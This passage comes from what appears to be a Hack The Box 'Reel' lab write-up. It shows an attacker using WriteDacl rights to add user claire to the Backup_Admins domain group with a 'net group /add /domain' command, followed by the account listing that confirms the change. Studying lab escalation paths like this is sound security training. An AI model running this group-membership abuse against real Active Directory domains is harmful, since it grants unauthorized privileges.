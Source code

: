 ## PrivEsc → Backup_Admins

While checking about Claire. I got to know she has one `First Degree Object Control` which means she has control directly over Backup_Admins.

![Untitled](/img/htb-reel/Untitled%205.png)

Since we have WriteDacl rights on the Backup_Admins group. I can use that to add her to the group.

Added her to that group.

```bash
PS C:\Users\claire> net group "Backup_Admins" claire /add /domain                                                               
The command completed successfully.                                                                                             

PS C:\Users\claire> net user claire                                                                                             
User name                    claire                                                                                             
Full Name                    Claire Danes                                                                                       
Comment                                                                                                                         
User's comment                                                                                                                  
Country/region code          000 (System Default)                                                                               
Account active               Yes                                                                                                
Account expires              Never                                                                                              

Password last set            8/25/2020 3:37:32 PM                                                                               
Password expires             Never                                                                                              
Password changeable          8/26/2020 3:37:32 PM                                                                               
Password required            Yes                                                                                                
User may change password     Yes                                                                                                

Workstations allowed         All                                                                                                
Logon script                                                                                                                    
User profile                                                                                                                    
Home directory                                                                                                                  
Last logon                   8/25/2020 3:34:04 PM                                                                               

Logon hours allowed          All                                                                                                

Local Group Memberships      *Hyper-V Administrator                                                                             
Global Group memberships     *Backup_Admins        *Domain Users                                                                
```